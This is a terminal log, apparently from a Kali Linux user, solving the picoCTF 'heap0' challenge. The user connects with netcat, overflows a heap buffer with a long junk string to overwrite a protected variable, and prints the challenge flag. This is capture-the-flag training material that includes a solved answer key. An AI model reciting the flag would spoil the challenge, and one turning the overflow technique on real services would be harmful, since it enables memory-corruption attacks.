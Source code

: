 ┌──(kali㉿kali)-[~/Рабочий стол/CTF]
└─$ nc tethys.picoctf.net 58329

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x6538015ae2b0  ->   pico
+-------------+----------------+
[*]   0x6538015ae2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: qweiqweiouqequyyghsudfgusgfusgfgusgfusgfuigsfguisgfugsjbjksbcjkbsjicbjisbcjibsduibfuigsdiofghsiohfpshifhsiofhoishfoishfioshiofhsiofhuishfioshfioshiofhsoifhioshfioshiofhsiofhoishfiohsiofhioshfioshfiohsiofhioshfiohsiofhsoihfioshfiohsiofhsiofhsi

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_1ad0e1a6}

┌──(kali㉿kali)-[~/Рабочий стол/CTF]
└─$





